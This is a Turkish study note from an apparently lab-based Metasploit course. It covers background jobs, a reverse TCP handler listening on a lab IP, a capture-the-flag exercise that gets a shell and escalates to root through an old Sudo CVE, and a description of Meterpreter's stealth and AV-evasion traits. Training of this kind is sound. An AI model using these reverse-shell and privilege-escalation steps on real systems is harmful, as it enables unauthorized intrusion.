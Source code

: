 
#### **Bir Exploit'i Bir Background Job Olarak Çalıştırma**
```shell-session
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.34:4444
```

#### **Çalışan Jobs Listeleme**  

Çalışan tüm işleri listelemek için jobs `-l` komutunu kullanabiliriz. Belirli bir işi öldürmek için işin dizin numarasına bakın ve `kill [dizin no.]` komutunu kullanın `.` Çalışan tüm işleri öldürmek için `jobs -K` komutunu kullanın.

```shell-session
msf6 exploit(multi/handler) > jobs -l

Jobs
====

 Id  Name                    Payload                    Payload opts
 --  ----                    -------                    ------------
 0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:4444
```

Sırada, son derece güçlü `Meterpreter` payload'u ile çalışacağız.


Hedefte, HTML kaynak koduna bakarak bulabileceğimiz belirli bir web uygulaması çalışıyor. Bu web uygulamasının adı nedir?

MSF'de mevcut exploiti bulun ve hedef üzerinde bir shell elde etmek için kullanın. Shell elde ettiğiniz kullanıcının kullanıcı adı nedir?

Hedef sistemde Sudo'nun eski bir sürümü çalışıyor. İlgili exploiti bulun ve hedef sisteme root erişimi elde edin. Flag.txt dosyasını bulun ve içeriğini cevap olarak gönderin.


Çözüm : Nmap ile zafiyetli uygulamanın ismi bulundu. Msfconsoleda tespit edilim shell alındı. Shell'e geçilip sudonun versioyunu tespit edilim google'dan arandı ve uygun bir CVE bulundu CVE search edilde msfconsoledan ve LHOST ve session set ederek çalıştırıldı ve yetki yükseltildi . 


# Meterpreter
`Meterpreter` Payload, kurban host ile bağlantının istikrarlı olmasını sağlamak için `DLL enjeksiyonunu` kullanan ve basit kontroller kullanılarak tespit edilmesi zor olan ve yeniden başlatmalar veya sistem değişiklikleri boyunca kalıcı olacak şekilde yapılandırılabilen çok yönlü, genişletilebilir Payload'un özel bir türüdür. Ayrıca, Meterpreter tamamen uzak hostun belleğinde bulunur ve sabit diskte hiçbir iz bırakmaz, bu da geleneksel adli tekniklerle tespit edilmesini zorlaştırır.

Çeşitli ayrıcalık yükseltme teknikleri, AV kaçınma teknikleri, daha fazla güvenlik açığı araştırması, kalıcı erişim sağlama, pivot vb. bulmamıza yardımcı olabilir.

Bazı ilginç okumalar için Meterpreter stageless payloads hakkındaki bu [yazıya](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/) ve Metasploit şablonlarının kaçınma için değiştirilmesi hakkındaki bu [yazıya](https://www.blackhillsinfosec.com/modifying-metasploit-x64-template-for-av-evasion) göz atın. Bu konular bu modülün kapsamı dışındadır, ancak bu olasılıkların farkında olmalıyız.

